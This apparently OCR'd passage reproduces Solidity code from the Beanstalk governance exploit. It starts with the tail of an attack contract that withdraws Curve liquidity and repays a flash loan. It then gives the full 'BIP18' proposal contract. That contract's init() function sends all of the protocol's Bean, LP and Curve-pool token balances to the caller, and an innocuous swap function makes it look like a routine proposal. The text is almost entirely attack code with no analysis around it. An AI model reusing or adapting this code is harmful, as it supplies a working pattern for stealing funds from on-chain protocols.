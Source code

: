 ```solidity


            ICRV(beanCrvAddress).remove_liquidity_one_coin(IERC20(beanCrvAddress).balanceOf(address(this)), int128(1), 0);
            ICRV(beanLusdAddress).remove_liquidity_one_coin(IERC20(beanLusdAddress).balanceOf(address(this)), int128(1), 0);

            IERC20(token).transfer(msg.sender, amount0*103/100);
        }
    }
}

```

BIP18:

```solidity
pragma solidity ^ 0.8.0;
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}
interface Irouter{
        function swapExactETHForTokens(uint , address[] calldata , address , uint)
        external
        payable
        returns (uint[] memory amounts);
}
contract BIP18{
        address public router                   = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
        address public weth                     = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        address public beanTokenAddress         = 0xDC59ac4FeFa32293A95889Dc396682858d52e5Db;
    function init() public{
        IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).transfer(msg.sender, IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).balanceOf(address(this)));//bean
        IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).transfer(msg.sender, IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).balanceOf(address(this)));//wethBeanLP
        IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).transfer(msg.sender, IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).balanceOf(address(this)));//beanCrv
        IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).transfer(msg.sender, IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).balanceOf(address(this)));//beanLusd
    }    
    function getSomeBeans() external payable returns (uint){
        address[] memory path = new address[](2);
        path[0] = weth;
        path[1] = beanTokenAddress;
        uint256[] memory res;
        res = Irouter(router).swapExactETHForTokens{value:msg.value}(211000000000, path, msg.sender, block.timestamp);
        return res[1];
    }
}
```
